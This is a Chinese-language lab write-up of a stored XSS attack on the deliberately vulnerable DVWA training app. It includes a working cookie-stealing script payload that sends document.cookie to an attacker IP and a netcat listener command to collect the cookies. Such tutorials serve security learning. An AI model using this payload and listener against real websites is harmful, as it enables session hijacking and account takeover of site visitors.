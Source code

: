 ## 一、存储型XSS(Stored XSS)
存储型XSS的Payload会被永久保存在网站的数据库中（如一条留言、一篇帖子），访问即中招。
## 二、攻击流程
### 2.1侦测漏洞
1. DVWA Security级别low
2. XSS(Stored)模块，输入测试代码`<script>alert('Stored XSS')</script>`
3. 弹出"Stored XSS"警告框，且每次都弹窗，证明脚本保存在服务器上
### 2.2准备Payload
1. 目标是窃取Cookie
2. 修改message的text限制为500；`<textarea name="mtxMessage" cols="50" rows="3" maxlength="500"></textarea>`
3. Payload；`<script>document.location='http://192.168.174.129:1234/?cookie=' + document.cookie;</script>`
### 2.3收获
1. 启动监听器；`nc -lvp 1234`
2. XSS(Stored)提交Payload
3. `netcat`接收到Cookie
## 三、总结
1. -l是listen，-v是verbose，-p是port
2. `while true; do nc -lvp 1234; done`则不断接收Cookie
3. 不重置数据库，又能安全返回XSS Stored页面的方法：浏览器暂时禁用JavaScript功能
    - 浏览器地址栏输入`about:config`
    - 搜索`javascript.enabled`，将其从`true`切换成`false`

